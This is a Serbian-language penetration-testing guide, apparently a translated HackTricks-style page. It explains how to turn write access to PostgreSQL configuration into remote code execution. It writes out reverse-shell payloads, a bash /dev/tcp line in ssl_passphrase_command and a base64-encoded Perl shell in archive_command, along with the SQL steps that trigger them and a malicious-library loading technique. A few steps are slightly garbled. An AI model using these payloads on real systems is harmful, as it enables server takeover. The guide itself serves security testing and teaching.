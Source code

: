 * `ssl_key_file = '/etc/ssl/private/ssl-cert-snakeoil.key'` Putanja do privatnog ključa baze podataka
* `ssl_passphrase_command = ''` Ako je privatna datoteka zaštićena lozinkom (šifrovana) postgresql će **izvršiti komandu naznačenu u ovom atributu**.
* `ssl_passphrase_command_supports_reload = off` **Ako** je ovaj atribut **uključen** komanda izvršena ako je ključ zaštićen lozinkom **će se izvršiti** kada se izvrši `pg_reload_conf()`.

Zatim, napadač će morati:

1. **Izvući privatni ključ** sa servera
2. **Šifrovati** preuzeti privatni ključ:
3. `rsa -aes256 -in preuzeti-ssl-cert-snakeoil.key -out ssl-cert-snakeoil.key`
4. **Prepisati**
5. **Izvući** trenutnu postgresql **konfiguraciju**
6. **Prepisati** **konfiguraciju** sa pomenutim atributima konfiguracije:
7. `ssl_passphrase_command = 'bash -c "bash -i >& /dev/tcp/127.0.0.1/8111 0>&1"'`
8. `ssl_passphrase_command_supports_reload = on`
9. Izvršiti `pg_reload_conf()`

Prilikom testiranja primetio sam da će ovo raditi samo ako **datoteka privatnog ključa ima privilegije 640**, da je **vlasnik root** i da je **grupa ssl-cert ili postgres** (tako da postgres korisnik može da je čita), i da je smeštena u _/var/lib/postgresql/12/main_.

#### **RCE sa archive\_command**

**Više** [**informacija o ovoj konfiguraciji i o WAL ovde**](https://medium.com/dont-code-me-on-that/postgres-sql-injection-to-rce-with-archive-command-c8ce955cf3d3)**.**

Još jedan atribut u konfiguracionoj datoteci koji je iskoristiv je `archive_command`.

Da bi ovo radilo, postavka `archive_mode` mora biti `'on'` ili `'always'`. Ako je to tačno, tada bismo mogli prebrisati komandu u `archive_command` i naterati je da se izvrši putem WAL (write-ahead logging) operacija.

Opšti koraci su:

1. Proveriti da li je režim arhiviranja omogućen: `SELECT current_setting('archive_mode')`
2. Prebrisati `archive_command` sa payload-om. Na primer, reverzna ljuska: `archive_command = 'echo "dXNlIFNvY2tldDskaT0iMTAuMC4wLjEiOyRwPTQyNDI7c29ja2V0KFMsUEZfSU5FVCxTT0NLX1NUUkVBTSxnZXRwcm90b2J5bmFtZSgidGNwIikpO2lmKGNvbm5lY3QoUyxzb2NrYWRkcl9pbigkcCxpbmV0X2F0b24oJGkpKSkpe29wZW4oU1RESU4sIj4mUyIpO29wZW4oU1RET1VULCI+JlMiKTtvcGVuKFNUREVSUiwiPiZTIik7ZXhlYygiL2Jpbi9zaCAtaSIpO307" | base64 --decode | perl'`
3. Ponovo učitati konfiguraciju: `SELECT pg_reload_conf()`
4. Naterati operaciju WAL da se izvrši, što će pozvati arhivsku komandu: `SELECT pg_switch_wal()` ili `SELECT pg_switch_xlog()` za neke verzije Postgresa

#### **RCE sa bibliotekama za učitavanje pri pokretanju**

Više informacija [o ovoj tehnici ovde](https://adeadfed.com/posts/postgresql-select-only-rce/).

Ovaj vektor napada koristi sledeće konfiguracione promenljive:

* `session_preload_libraries` -- biblioteke koje će biti učitane od strane PostgreSQL servera prilikom povezivanja klijenta.
* `dynamic_library_path` -- lista direktorijuma gde će PostgreSQL server tražiti biblioteke.

Možemo postaviti vrednost `dynamic_library_path` na direktorijum koji je upisiv od strane `postgres` korisnika koji pokreće bazu podataka, na primer, `/tmp/` direktorijum, i otpremiti zlonamerni `.so` objekat tamo. Zatim ćemo naterati PostgreSQL server da učita našu novu otpremljenu biblioteku uključivanjem je u promenljivu `session_preload_libraries`.
